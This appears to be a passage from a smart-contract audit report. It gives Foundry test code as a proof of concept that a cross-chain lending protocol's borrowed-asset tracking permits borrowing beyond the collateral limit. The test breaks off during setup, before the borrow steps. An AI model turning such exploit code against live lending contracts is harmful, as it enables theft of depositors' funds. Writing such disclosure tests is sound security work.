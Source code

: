 
### PoC

1. Add the following functions in `test/TestBorrowingCrossChain.t.sol`:
```solidity
    function _supplyAWithUser(uint256 amount, address user) internal returns (address token, address lToken) {
        // Deal ether for LayerZero fees
        vm.deal(address(routerA), 1 ether);

        token = supportedTokensA[0];
        lToken = lendStorageA.underlyingTolToken(token);

        vm.startPrank(user);
        ERC20Mock(token).mint(user, amount);
        IERC20(token).approve(address(coreRouterA), amount);
        coreRouterA.supply(amount, token);
        vm.stopPrank();
    }

    function _supplyC(uint256 amount) internal returns (address token, address lToken) {
        // Deal ether for LayerZero fees
        vm.deal(address(routerA), 1 ether);

        token = supportedTokensA[1];
        lToken = lendStorageA.underlyingTolToken(token);
        
        vm.startPrank(deployer);
        ERC20Mock(token).mint(deployer, amount);
        IERC20(token).approve(address(coreRouterA), amount);
        coreRouterA.supply(amount, token);
        vm.stopPrank();
    }
```
2. Add the following test in the same file:
```solidity
    function test_flawed_borrowedAssets_tracking_allows_for_borrows_beyond_maxBorrow
    (
        uint256 amountToSupply,
        uint256 amountToBorrow
    ) public {
        // Bound amount between 1e18 and 1e30 to ensure reasonable test values
        amountToSupply = bound(amountToSupply, 1e18, 1e30);

        // Fund Router A with ETH for LayerZero fees
        vm.deal(address(routerB), 1 ether);

        // First supply tokens as collateral on Chain A
        (address tokenB, address lTokenB) = _supplyB(amountToSupply);

        // Deal ether for LayerZero fees
        vm.deal(address(routerB), 1 ether);

        // some random user supplys tokenA in chainA
        (address tokenA, address lTokenA) = _supplyAWithUser(amountToSupply * 2, address(1));

        // Calculate maximum allowed borrow (using actual collateral factor) --> scale down for precision loss
        uint256 maxBorrow = (lendStorageB.getMaxBorrowAmount(deployer, lTokenB) * 0.9e18) / 1e18;

        uint256 boundedBorrow = bound(amountToBorrow, 0.1e18, maxBorrow);

        // Get initial balances
```